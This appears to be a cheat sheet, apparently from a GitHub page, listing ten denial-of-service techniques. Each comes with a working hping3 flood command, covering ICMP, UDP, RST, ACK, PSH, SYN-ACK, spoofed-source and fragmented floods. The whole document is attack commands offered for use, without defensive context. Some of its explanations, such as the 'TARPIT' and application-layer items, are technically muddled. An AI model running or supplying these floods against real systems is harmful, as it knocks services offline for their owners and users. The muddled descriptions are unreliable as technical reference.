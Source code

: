 #### Denial of Service (DoS) Techniques

1. **ICMP Flood**: Floods the target with ICMP Echo Requests, potentially overwhelming their network stack.
    ```bash
    hping3 --icmp --flood -d <data_size> <target_ip>
    ```
2. **UDP Flood**: Sends a flood of UDP packets to a target port, overwhelming the target's resources.
    ```bash
    hping3 --udp --flood -p <target_port> -d <data_size> <target_ip>
    ```
3. **RST Flood**: Sends a flood of RST packets, attempting to reset active connections on the target system.
    ```bash
    hping3 -R --flood -p <target_port> <target_ip>
    ```
4. **ACK Flood**: Floods the target with ACK packets, which can cause issues with firewalls and stateful inspection.
    ```bash
    hping3 -A --flood -p <target_port> <target_ip>
    ```
5. **Push Flood (PSH Flood)**:Floods the target with PSH packets, forcing immediate processing of the data in the TCP stack.
    ```bash
    hping3 -P --flood -p <target_port> <target_ip>
    ```
 6. **SYN-ACK Flood**: Sends a flood of SYN-ACK packets, which can disrupt services by overwhelming the connection state table.
    ```bash
    hping3 -S --ack --flood -p <target_port> <target_ip>
    ```
7. **TARPIT DoS**: Exploits TCP timestamp vulnerabilities to force the target into using its resources on unproductive connections.
    ```bash
    hping3 -S -p <target_port> -c <count> --data <payload> --tcp-timestamp <target_ip>
    ```
8. **Resource Exhaustion Attack**: Floods the target with large packets from random source IPs to exhaust its resources.
    ```bash
    hping3 --flood --rand-source --data 1200 -p <target_port> <target_ip>
    ```
9. **Fragmented ICMP Flood**: Sends a flood of fragmented ICMP packets to bypass detection and overwhelm the target.
    ```bash
    hping3 --icmp --flood -f <target_ip>
    ```
10. **Application-Layer DoS**: Floods the target's web server with incomplete or malformed HTTP requests, disrupting service.
    ```bash
    hping3 --syn --flood -p 80 --data "GET / HTTP/1.1\r\nHost: <target_ip>\r\n\r\n" <target_ip>
    ```
